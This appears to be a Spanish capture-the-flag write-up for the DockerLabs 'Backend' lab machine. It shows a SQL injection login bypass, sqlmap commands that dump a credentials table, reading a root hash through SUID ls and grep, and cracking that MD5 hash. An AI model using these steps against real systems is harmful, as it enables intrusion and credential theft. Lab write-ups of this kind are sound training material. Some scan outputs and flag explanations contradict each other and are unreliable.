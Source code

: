 #MAQUINA #DOCKERLABS #FACIL 
#SQLI #MD5
#SQLMAP 
<hr>

# RECONOCIMIENTO

Vamos a resolver **Backend** de la plataforma **DockerLabs**.

   ```bash

Máquina desplegada, su dirección IP es --> 172.17.0.2

```

Primero vamos a hacer un escaneo de puertos rápido:

```bash

nmap -sCV -p22,80 172.17.0.2                              
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-10 09:09 CET
Nmap scan report for pressenter.hl (172.17.0.2)
Host is up (0.000021s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0)
| ssh-hostkey: 
|   256 08:ba:95:95:10:20:1e:54:19:c3:33:a8:75:dd:f8:4d (ECDSA)
|_  256 1e:22:63:40:c9:b9:c5:6f:c2:09:29:84:6f:e7:0b:76 (ED25519)
80/tcp open  http    Apache httpd 2.4.61 ((Debian))
|_http-server-header: Apache/2.4.61 (Debian)
|_http-title: test page
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.49 seconds



```

- **`--open`**: Muestra solo los puertos abiertos en la salida.
- **`-sS`**: Especifica un escaneo TCP SYN, que es más sigiloso que un escaneo de conexión completa.
- **`--min-rate 5000`**: Establece la tasa mínima de paquetes enviados a 5000 por segundo, haciendo que el escaneo sea más rápido.
- **`-vvv`**: Aumenta el nivel de verbosidad, proporcionando una salida más detallada durante el escaneo.
- **`-n`**: No resuelve DNS; esto evita retrasos por búsquedas de nombres.
- **`-Pn`**: Trata el objetivo como si estuviera en línea; omite el descubrimiento de hosts.
- **`-p-`**: Escanea todos los 65535 puertos en lugar de solo los más comunes.

**Conclusiones:** El ttl al ser 64 nos dice que es una máquina **Linux**. Además, vemos que tiene el puerto **80(HTTP)** y el puerto **22(SSH)** abiertos.

Ahora vamos a hacer un escaneo con mayor detalle:

   ```bash

nmap -sCV -p22,80 172.17.0.2                              
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-22 11:58 CET
Nmap scan report for 172.17.0.2
Host is up (0.000024s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 72:1f:e1:92:70:3f:21:a2:0a:c6:a6:0e:b8:a2:aa:d5 (ECDSA)
|_  256 8f:3a:cd:fc:03:26:ad:49:4a:6c:a1:89:39:f9:7c:22 (ED25519)
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Iniciar Sesi\xC3\xB3n
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.55 seconds


```

   ```bash

nmap --script="http-enum" 172.17.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-10 09:09 CET
Nmap scan report for pressenter.hl (172.17.0.2)
Host is up (0.0000030s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
| http-enum: 
|   /login.php: Possible admin folder
|   /login.html: Possible admin folder
|_  /css/: Potentially interesting directory w/ listing on 'apache/2.4.61 (debian)'
MAC Address: 02:42:AC:11:00:02 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 0.45 seconds


```

- **`-sC`**: Realiza un escaneo de scripts (Nmap Scripting Engine, NSE). Esto permite ejecutar scripts de `nmap` para obtener información adicional sobre los servicios detectados, como vulnerabilidades, configuraciones o detalles específicos de los mismos.
- **`-sV`**: Realiza la detección de versiones de servicios. Esto intenta identificar la versión exacta del software que está escuchando en un puerto abierto, lo que puede ayudar a determinar si hay vulnerabilidades conocidas.
- **`--script`**:  Ejecutar un script específico.

# EXPLOTACION

Al revisar la web que hay en el puerto 80, vemos que hay un login. 
Al meter una contra cualquiera y meterle como usuario -> **a' or 1=1 -- -** , salta un error, por lo que es vulnerable a un SQLI, vamos a automatizarlo usando **sqlmap**

   ```bash

sqlmap -u "http://172.17.0.2/login.html" --batch --forms --dbs                      

available databases [5]:
[*] information_schema
[*] mysql
[*] performance_schema
[*] sys
[*] users


sqlmap -u "http://172.17.0.2/login.html" --batch --forms -D users --tables

Database: users
[1 table]
+----------+
| usuarios |
+----------+

sqlmap -u "http://172.17.0.2/login.html" --batch --forms -D users -T usuarios --dump

Database: users
Table: usuarios
[3 entries]
+----+---------------+----------+
| id | password      | username |
+----+---------------+----------+
| 1  | $paco$123     | paco     |
| 2  | P123pepe3456P | pepe     |
| 3  | jjuuaann123   | juan     |
+----+---------------+----------+

```

La de **pepe** es credencial para **ssh**

# ESCALADA PRIVILEGIOS

Buscamos archivos con permisos SUID:
   ```bash
pepe@bd14d5838466:~$ find / -perm -4000 2>/dev/null
/usr/bin/su
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/umount
/usr/bin/ls
/usr/bin/mount
/usr/bin/grep
/usr/bin/gpasswd
/usr/bin/chsh
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
```

Vemos **ls y grep** con permisos SUID y encontramos un hash en el directorio **/root** :
   ```bash
pepe@bd14d5838466:~$ ls /root
pass.hash
pepe@bd14d5838466:~$ grep '' /root/pass.hash
e43833c4c9d5ac444e16bb94715a75e4

```

ES MD5 (https://www.md5online.org/md5-decrypt.html?utm_content=cmp-true) -> **spongebob34**

**YA ESTAMOS COMO ROOT.**